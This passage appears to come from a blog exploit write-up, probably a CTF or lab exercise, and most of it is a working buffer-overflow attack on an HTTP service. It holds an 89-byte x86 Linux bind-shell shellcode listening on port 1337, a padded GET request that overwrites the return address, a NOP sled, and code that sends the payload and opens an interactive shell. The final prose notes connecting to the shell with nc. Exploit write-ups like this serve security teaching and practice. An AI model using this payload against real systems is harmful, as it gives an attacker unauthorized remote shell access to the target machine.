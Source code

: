 # Shell Bind TCP Shellcode Port 1337 - 89 bytes - http://shell-storm.org/shellcode/files/shellcode-882.php
shellcode = "\x6a\x66\x58\x6a\x01\x5b\x31\xf6\x56\x53\x6a\x02\x89\xe1\xcd\x80\x5f\x97\x93\xb0\x66\x56\x66\x68\x05\x39\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x56\x57\x89\xe1\xcd\x80\xb0\x66\x43\x56\x56\x57\x89\xe1\xcd\x80\x59\x59\xb1\x02\x93\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\x89\xca\xcd\x80"


fill_buff = "A"*139 + lei(0xbffff8f8 + 170)

payload = "GET "
payload += fill_buff
payload += " HTTP/1.1"
payload += "\x90" * 32
payload += shellcode

s.send(payload)
# keeps connection open
telnet_shell(s)
{% endhighlight %}

We then have a shell listening on port 1337 that we can nc into :D

(I used a collection of helper functions from Blankwall's Template library. I encourage you to check it out: ([Github](https://github.com/blankwall/Template))
